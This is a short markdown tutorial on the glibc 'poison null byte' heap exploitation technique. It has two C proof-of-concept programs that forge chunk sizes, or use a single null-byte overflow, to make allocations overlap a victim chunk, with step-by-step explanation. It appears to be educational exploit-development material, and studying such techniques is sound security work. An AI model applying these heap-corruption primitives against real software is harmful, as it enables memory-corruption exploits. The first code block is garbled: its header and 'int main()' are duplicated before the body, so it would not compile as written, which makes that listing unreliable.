 # Poison null byte
> LongChampion, 16/03/2020

# Simple version: arbitrary overwrite
In this simple version, we can overwrite next chunk header with any content because of an overflow, let see what will happen:
```
#include <stdlib.h>

int main()
#include <stdlib.h>
#define PREV_INUSE 0x01

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);
    void *c = malloc(0x100 - 8);

    struct Chunk *b_header = (struct Chunk *) (b - 0x10);
    b_header->size = 0x200 | PREV_INUSE;

    struct Chunk *f_header = (struct Chunk *) (b + 0x200 - 0x10);
    f_header->size = 0x200 | PREV_INUSE;

    free(b);
    b = malloc(0x200 - 8);
}
```
First, we overflow chunk `a` to set size of chunk `b` to 0x200 | 0x1. We must set PREV_INUSE flag or `free` will merge chunk `b` with chunk `a` when chunk `b` is freed. Then, we create a fake chunk at offset 0x200 behind chunk `b`. This size fake chunk must equal to fake size of chunk `b` (it's is 0x200 in the code above). Again, the PREV_INUSE flag is also necessary: you can free a chunk if is not in use. The chunk `c` very inportant: it is both the victim chunk to be overlapping and the "pivot" chunk to prevent chunk `b` from becoming the top_chunk, which we can not free.  
Finally, free chunk `b`, it will be pushed to smallbin of size 0x200. When we call `malloc(0x200 - 8)`, we recieve chunk `b` again but with BIGGER SIZE and we are able to overwrite to chuck `c`.

# Reality version: only one nullbyte overflow
This error is common but is harder to exploit.
```
#include <stdlib.h>
#include <malloc.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x210 - 8);
    void *c = malloc(0x100 - 8);

    free(b);

    *(char *) (a + malloc_usable_size(a)) = 0x00;
    struct Chunk *f_chunk = (struct Chunk *) (b + 0x200 - 0x10);
    f_chunk->pre_size = 0x200;

    void *b1 = malloc(0x100 - 8);
    void *b2 = malloc(0x60 - 8);

    free(b1);
    free(c);

    b = malloc(0x400 - 8);
}
```

> I highly recommend read [this](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf) for visualization of this attack.

This attack is very similar to the last one except the followings:
- We modify chunk `b` AFTER it have been freed.
- The nullbyte DECREASE size of chunk `b` (0x00 is the smallest byte lol)
- The size of chunk `b1` must strictly LARGER than max size of fastbin
- After `free(c)`, chunk `b` is top_chunk, so any malloc with size larger than size of last_remeaning_chunk will return `b`. (last_remeaning_chunk is the chunk remain in unsorted_bin when we call allocate `b2`)

## NOTE
- **DON'T MAKE YOUR LIFE OBSTRUCT BY YOURSELF**:  
    In simple version, we set
    > `f_chunk->size = 0x200 | PREV_INUSE`

    but in reality version, we set
    > `f_chunk->pre_size = 0x200`.
- This attack doesn't work against tcache_bin and fastbin because their mechanism are different from smallbin mechanism.
